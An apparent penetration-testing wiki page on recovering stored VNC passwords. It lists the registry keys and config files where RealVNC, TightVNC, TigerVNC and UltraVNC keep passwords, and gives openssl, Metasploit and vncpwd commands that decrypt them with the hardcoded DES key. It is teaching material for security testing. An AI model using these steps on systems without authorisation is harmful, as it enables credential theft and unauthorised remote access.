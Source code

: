 ```yaml
---
description: 'MITRE ATT&CK™ Unsecured Credentials: Credentials In Files - Technique T1552.00'
---
```


# VNC Config

## Theory

VNC clients uses a hardcoded DES key to store credentials. If you have access to a VNC config file you may be able to decrypt it as **the same key is used across multiple product lines**.

## Practice

{% tabs %}
{% tab title="Windows" %}
On Windows systems, you may find the VNC password in the following files.

| VNC Client   | Config File                                     | Password                                      |
| ------------ | ----------------------------------------------- | --------------------------------------------- |
| _RealVNC_    | HKEY\_LOCAL\_MACHINE\SOFTWARE\RealVNC\vncserver | Value: Password                               |
| _TightVNC_   | HKEY\_CURRENT\_USER\Software\TightVNC\Server    | HKLM\SOFTWARE\TightVNC\Server\ControlPassword |
| tightvnc.ini | vnc\_viewer.ini                                 | Value: Password or PasswordViewOnly           |
| _TigerVNC_   | HKEY\_LOCAL\_USER\Software\TigerVNC\WinVNC4     | Value: Password                               |
| _UltraVNC_   | C:\Program Files\UltraVNC\ultravnc.ini          | Value: passwd or passwd2                      |

Once you have extracted the hexadecimal-encoded password, we can decrypt it using only native Linux tools

```bash
echo -n <HEX_PASSWORD> | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

Msfconsole can also be used to decrypt the password as follows (example with key 17526b06234e5807)

```bash
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["D7A514D8C556AADE"].pack('H*'), fixedkey
 => "Secure!\x00"
>> 
```
{% endtab %}

{% tab title="UNIX-like" %}
On UNIX-type systems, the default password is stored in: `~/.vnc/passwd`

We may decrypt it using the [vncpwd](https://github.com/jeroennijhof/vncpwd) tool

```bash
vncpwd <vnc password file>
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://notes.offsec-journey.com/enumeration/vnc" %}

{% embed url="https://github.com/frizb/PasswordDecrypts" %}
